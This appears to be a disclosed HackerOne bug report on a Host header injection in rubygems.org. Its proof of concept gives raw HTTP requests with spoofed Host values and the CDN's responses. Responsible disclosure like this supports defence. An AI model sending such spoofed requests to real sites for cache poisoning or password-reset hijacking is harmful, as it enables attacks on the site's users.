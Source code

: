# Host header Injection rubygems.org

## Report Details
- **Report ID**: 180196
- **URL**: https://hackerone.com/reports/180196
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-04T18:12:04.182Z
- **Disclosed**: 2018-02-08T23:10:47.550Z

## Reporter
- **Username**: bugs3ra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
Hi,

As you are interested in any bug in rubygems.org, I thought of reporting it.

The host header is not validated on rubygems.org. In many cases, developers are trusting the HTTP Host header value and using it to generate links, import scripts and even generate password resets links with its value. This is a very bad idea, because the HTTP Host header can be controlled by an attacker. This can be exploited using web-cache poisoning and by abusing alternative channels like password reset emails.

**POC**
```
GET / HTTP/1.1
Host: www.google.com
```
Response
```
HTTP/1.1 500 Domain Not Found
Server: Varnish
Retry-After: 0
content-type: text/html
Cache-Control: private, no-cache
connection: keep-alive
Content-Length: 207
Accept-Ranges: bytes
Date: Mon, 31 Oct 2016 07:49:14 GMT
Via: 1.1 varnish
Connection: close

<html>
<head>
<title>Fastly error: unknown domain www.google.com</title>
</head>
<body>
Fastly error: unknown domain: www.google.com. Please check that this domain has been added to a service.</body></html>
```
Now having my malicious page hosted on fastly(example taken is www.newrelic.com running on faslty), I can expolit the issue:
```
GET / HTTP/1.1
Host: www.newrelic.com
```
Response
```
HTTP/1.1 301 Moved Permanently
Server: nginx
Content-Type: application/x-msdownload
Status: 301 Moved Permanently
Location: http://newrelic.com/
```

## Attachments
- POC.JPG
